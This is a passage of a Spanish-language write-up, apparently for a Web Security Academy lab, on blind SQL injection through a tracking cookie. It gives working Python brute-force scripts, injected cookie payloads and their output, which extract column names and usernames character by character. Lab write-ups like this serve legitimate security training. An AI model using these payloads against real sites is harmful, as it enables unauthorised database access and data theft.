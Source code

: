 ```
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 26):
            for character in characters:
                cookies = {
                    'TrackingId': "LNchxAn9oOJqOKHw' and (select substr(string_agg(column_name,', '),%d,1) from information_schema.columns where table_name='users')='%s'-- - " % (
                    position, character),
                    'session': "U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX"
                }

                p1.status(cookies['TrackingId'])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Extraemos` el `nombre` de las `columnas`

```
# python3 sqli_conditional_response.py
[>] Fuerza bruta: LNchxAn9oOJqOKHw' and (select substr(string_agg(column_name,', '),25,1) from information_schema.columns where table_name='users')='i'-- - 
[o] Output: username,+output,+email
```

`Obtenemos` la `longitud` de la `columna users`, la cual es de `29 caracteres `

```
Cookie: TrackingId=q5zrdy5bS1cbQoge'+and+length((select+string_agg(username,', ')+from+users))=29--+-+; session=TLQCRenf9WOJ32JrP9iO3PG1TqebSben
```

Modificamos el script para `bruteforcear` los `usernames`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a5d00a603008a5b80aacc1e00950014.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
```